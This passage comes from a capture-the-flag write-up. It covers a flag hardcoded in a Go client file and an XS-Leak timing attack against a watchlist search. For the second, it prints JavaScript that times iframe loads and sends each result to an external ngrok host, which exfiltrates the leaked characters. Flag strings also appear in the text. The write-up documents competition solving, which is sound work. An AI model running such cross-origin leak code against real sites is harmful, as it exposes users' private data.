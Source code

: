 Screenshots of the attack and result:
![Redirect Setup](https://i.imgur.com/4NoUEki.png)
![Localhost SSRF](https://i.imgur.com/EY90Hng.png)

---

### oracle-srl
**Proof of flag**
![Flag Screenshot](https://i.imgur.com/IP9NE9C.png)
`CTF{e663b007e3d1fd27f657e2756e3ba8724a37119d145063ce541595988b6cdc72}`

**Summary of the vulnerabilities identified**
The flag was leaked in the source code of `/Oracle-SRL/client/client.go`.

**Proof of solving**
After inspecting the code repository, I found the flag hardcoded within the client file. A simple search through the source code revealed the flag.
![Source Code Flag Leak](https://i.imgur.com/IP9NE9C.png)

---

### reelfreaks
**Proof of flag**
![Flag Screenshot](https://i.imgur.com/UBao3Y2.png)
`DCTF{l3ak_ev3ry_d4y_0f_ev3ry_w33k}`

**Summary of the vulnerabilities identified**
XS-Leak through timing attacks on the search functionality, used to retrieve contents of the `/watchlist` endpoint indirectly via the bot's page visit.

**Proof of solving**
The bot visited any page on any website, but there was no direct XSS on the challenge site. By telling the bot to visit my crafted page, I measured the time it took to load different search queries from `/watchlist`. By optimizing the search function to avoid case sensitivity and using a reduced keyset, I efficiently filtered the correct flag characters. Here’s the attack code that conducted this XS-Leak:

```js
(async() => {
const keyset = "0123456789abcdefghijklmnopqrstuvwxyz_}";

for (let i = 0; i < keyset.length; i++) {
	const input = "ctf{l3ak_ev3ry_d4y_0f_ev3ry_w33k";
	let guess = keyset[i];

	const iframe = document.createElement("iframe");
	iframe.src = "https://127.0.0.1:5000/watchlist?q=" + input + guess;
	iframe.width = 1000;
	iframe.height = 1000;
	iframe.id = "easy";

	iframe.addEventListener("load", function() {
	  const end = Date.now();
	  console.log(`Execution time: ${end - start} ms`);
	  fetch(`https://1861-82-76-226-189.ngrok-free.app/?time=__${end - start}__&input=__${input + guess}__`)
	});

	const start = Date.now();
	document.body.appendChild(iframe);
	await new Promise(r => setTimeout(r, 500)); // sleep

}
```